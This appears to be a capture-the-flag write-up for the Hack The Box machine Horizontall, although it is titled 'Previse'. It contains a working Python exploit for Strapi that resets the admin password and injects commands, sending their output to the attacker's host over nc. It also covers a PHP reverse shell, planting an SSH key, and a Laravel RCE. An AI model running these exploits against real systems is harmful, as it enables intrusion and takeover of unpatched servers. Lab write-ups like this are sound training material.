

# Previse

- Target Machine: 10.10.11.105

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Fri Sep 10 10:34:23 2021 as: nmap -sC -sV -oN nmap/initial.log 10.10.11.105
Nmap scan report for 10.10.11.105
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 10 10:34:47 2021 -- 1 IP address (1 host up) scanned in 24.19 seconds
```

### Setting the host as known

Trying to access the website redirects to the unknown host horizontall.htb. However, the browser won't be able to connect to it unless we manually add it to the known hosts list.
To do this, add `10.10.11.105    horizontall.htb` in `/etc/hosts`

### gobuster scan

A normal directy scan reaveals nothing.

```
/index.html           (Status: 200) [Size: 901]
/favicon.ico          (Status: 200) [Size: 4286]
/.                    (Status: 301) [Size: 194] [--> http://horizontall.htb/./]
```

However, a DNS scan reveals the existance of an api-prod subdomain

```
[exyss@exyss Horizontall]$ gobuster dns -d horizontall.htb -w=/usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     horizontall.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
2021/09/10 12:13:39 Starting gobuster in DNS enumeration mode
===============================================================
Found: api-prod.horizontall.htb

===============================================================
```

We must now add `10.10.11.105    api-prod.horizontall.htb    horizontall.htb` in `/etc/hosts` in order to run another dir scan

```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60]
/Reviews              (Status: 200) [Size: 507]
```

## Accessing the machine

The admin page redirects us to a login page generated by the `strapi` nodejs nodule.
Reading through the documentation, we can see that the page `/admin/strapiVersion` gives us back the version of this module, which in our case is `3.0.0-beta.17.4`.

Searching on [snyk.io](https://snyk.io/vuln/SNYK-JS-STRAPI-536641) and [ExploitDB](https://www.exploit-db.com/exploits/50239), we find out that this version of strapi has a critical vulnerability that enables us to reset the admin's password by simply sending a POST request and then run a blind RCE injection.

We can create a python script that automatically executes both of these steps, giving us a bash-like experience.

```py
import requests as req
from os import system
import threading
import json
import sys

s = req.Session()

url = "http://api-prod.horizontall.htb"
my_ip = "10.10.14.196"

# Reset password
def reset_psw():
    
    new_pass = "imacutecupcake"

    payload = {
        "password" : new_pass,
        "passwordConfirmation" : new_pass,
        "code" : {
            "$gt":0
            }
    }

    print("[»] Resetting admin password...")
    r = s.post(f"{url}/admin/auth/reset-password", json = payload)

    if "admin" in r.text:
        print("[+] Success! The password was resetted!")

        data = json.loads(r.text)

        print("The new credentials are: ")
        print(f"\t- Username: {data['user']['username']}")
        print(f"\t- Email: {data['user']['email']}")
        print(f"\t- Password: {payload['password']}")
        print(f"\t- JW Token: {data['jwt'][:30]}...")

        return data['jwt']
        
    else:
        print("ERROR: Something went wrong")
        sys.exit(1)

print("-"*30+"\n")

##########
##########

# Run blind RCE
def run_cmd(jwt):

    headers = {
        "Authorization" : f"Bearer {jwt}"
        }

    print("-"*30+"\n")
    print("[+] Initializing terminal-like prompt")
    print("ATTENTION: wait untill you see the prompt to inject another command\n")

    while True:
        cmd_inj = input("\n$> ")

        print("[»] Trying to trigger blind RCE...\n")

        payload = {
            "plugin" : f"documentation && $({cmd_inj} | nc {my_ip} 1234)",
            "port" : "1337"
            }

        x = threading.Thread(target=rcv_output, daemon=True)
        x.start()
        req.post(f"{url}/admin/plugins/install", json = payload, headers = headers)
        x.join()

def rcv_output():
    system(f"timeout 1s nc -lnvp 1234 2> /dev/null")
    #Redirect netcat and timeout stderr to null in order to have a cleaner output

run_cmd(reset_psw())
```

Since this isn't a real shell but only a simple RCE, we still can't do much. However, we can now access the admin page using our new credentials and go to the Files Uploads page. We can now try to upload a PHP reverse shell in order to get a proper shell.



If we click our uploaded file, a link gets copied to our clipboard. This link contains localhost as target, but we can try to change it to the actual machine's address. However, if we try to go to this link, the file doesn't get executed but instead it gets downloaded.

We can still run the revshell from inside the RCE bash-like terminal:

```bash
[exyss@exyss Horizontall]$ python scripts/exploit.py 
------------------------------

[»] Resetting admin password...
[+] Success! The password was resetted!
The new credentials are: 
        - Username: admin
        - Email: admin@horizontall.htb
        - Password: imacutecupcake
        - JW Token: eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...
------------------------------

[+] Initializing terminal-like prompt
ATTENTION: wait untill you see the prompt to inject another command


$> ls    
[»] Trying to trigger blind RCE...

api
build
config
extensions
favicon.ico
node_modules
package.json
package-lock.json
public
README.md
  
$> ls public/uploads
[»] Trying to trigger blind RCE...

40203c9ea3e94cce9e8cdb95bccf6db4.php

$> php public/uploads/*
[»] Trying to trigger blind RCE...

Successfully opened reverse shell to 10.10.14.196:4444
```

We can now upgrade our shell by running `/usr/bin/script -qc /bin/bash /dev/null`.
The user flag can be found in `/home/developer`

## Priviledge escalation

In the folder `/opt/strapi/myapi/config/environments/development/` there is a file named `database.json` containing the credentials of the user developer

```json
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
cat database*
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

However, looks like the MySQL database doesn't contain anything useful.
After running linpeas on this machine, we find out that there's a service running on the local port 8000.
By using curl http://localhost:8000 we find out that it's a Laravel v8 (PHP v7.4.18) instance.

```html
.
.
.
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
                </div>
            </div>
        </div>
    </body>
</html>
```

This Laravel version has a [critical flaw](https://www.exploit-db.com/exploits/49424) that enables RCE.

To access the Laravel instance, we have to first create an SSH tunnel between the target machine and our own one.
First we have to generate our SSH key (in case it's not already created), then append it in the machine's `/opt/strapi/.ssh/authorized_keys` file, enabling us to SSH into the machine as strapi and to tunnel the target machine's port 8000 to our own port 8000.

__TIP__: use this easier-to-use [variant](https://github.com/nth347/CVE-2021-3129_exploit) of the exploit (thanks to nth347 for creating it!). Follow the instructions listed in the README.md to setup the environment for the exploit.

```bash

# FROM YOUR MACHINE
# ------------------
[exyss@exyss ~]$ ssh-keygen -o

[exyss@exyss ~]$ cat .ssh/id_rsa.pub    #Copy this to your clipboard

# FROM THE HORIZONTALL MACHINE
# ------------------

strapi@horizontall:/$ cd 
cd

strapi@horizontall:~$ mkdir .ssh
mkdir .ssh

strapi@horizontall:~$ cd .ssh 
cd .ssh

strapi@horizontall:~/.ssh$ touch authorized_keys
touch authorized_keys

strapi@horizontall:~/.ssh$ cat "{WHAT YOU JUST COPIED}" >> authorized_keys

# AGAIN FROM YOUR MACHINE
# ------------------

[exyss@exyss ~]$ ssh -i ~/.ssh/id_rsa -L 8000:localhost:8000 strapi@horizontall.htb

# AGAIN FROM YOUR MACHINE, ON ANOTHER TAB

[exyss@exyss scripts]$ python laravel_exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

{root flag}

[i] Trying to clear logs
[+] Logs cleared
```